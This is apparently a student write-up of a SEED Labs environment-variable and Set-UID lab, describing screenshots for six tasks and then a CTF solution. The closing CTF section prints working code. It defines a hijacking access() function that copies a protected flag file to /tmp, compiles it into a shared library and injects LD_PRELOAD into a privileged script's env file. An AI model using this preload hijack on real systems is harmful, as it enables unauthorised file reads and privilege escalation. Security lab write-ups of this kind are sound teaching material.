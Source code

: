 # Trabalho realizado na Semana #4

## Task 1

- After running printenv
![printenv](./images/image.png)

- After running printenv PWD to specify the variable
![printenv pwd](./images/image-1.png)

- Changing PWD from "/home/seed" to "/home" with export
![export](./images/image-2.png)

- Unsetting the PWD variable

![unset](./images/image-3.png)

## Task 2

- With line 2 commented out, this is the output of myprintenv.c, which we passed to a file.
![first run](./images/image-4.png)

- With line 2 uncommented and line 1 commented out, the output looks like this:
![second run](./images/image-5.png)

- After using the diff command, we can see there are no differences between the programs' outputs.
![diff](./images/image-6.png)

## Task 3


This task's objective is to analyse the behaviour of environment variables when the program is executed via the execve() function.

- After executing myenv.c with the "NULL" expression as the function's third parameter, the output of the program is null. 
![myenv1](./images/image-8.png)

- Now with the variable "environ" as the third parameter:
![myenv2](./images/image-9.png)



When the parameter was "NULL", the environment variables could not be registered there, but when we changed to a non-null variable, the environment variables are registered and then outputted.

## Task 4

In this task, we will use the system() function instead of execve(), which means that, instead of executing the command directly, we will first ask the shell to run it.

- By using the system() function and asking the shell to run the command, we have access to root privileges.
![system](./images/image-7.png)

## Task 5

- After altering altering the MY_VAR and LD_LIBRARY_PATH variables, we were suprised to find that the LD_LIBRARY_PATH variable does not print after running the program.
![task5](./images/image-10.png)


## Task 6

- We altered the code in the foo.c file to run the ls program (as shown below)
![Alt text](./images/image-12.png)
- The ls.c program will use geteuid() to find out if we have root privileges:
![geteuid](./images/image-13.png)
- Final result:
![terminal](./images/image-11.png)


## CTF

We present below the code we used to complete the CTF.
>Write what's in flag.txt to a file in another directory we can access.
>```
>echo "#include <stdlib.h>
>#include <stdio.h>
>int access(const char *pathname, int mode) { 
>   system(\"/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt \");
>   return 0;
>} " >> printenv.c
>```
>Create a library with our printenv.c.
>```
>gcc -fPIC -g -c printenv.c 
>gcc -shared -o libmylib.so.1.0.1 printenv.o -lc 
>```
>Preloads the library to env file, which is used in the script back in /flag_reader, so that our code runs before any other library. 
>```
>echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env 
>```
>Change file permissions.
>```
>touch myfile.txt
>chmod 777 myfile.txt 
>```
>Immediately after the script in the flag_reader folder is executed to get the content from the file.
>```
>cat myfile.txt 
>```
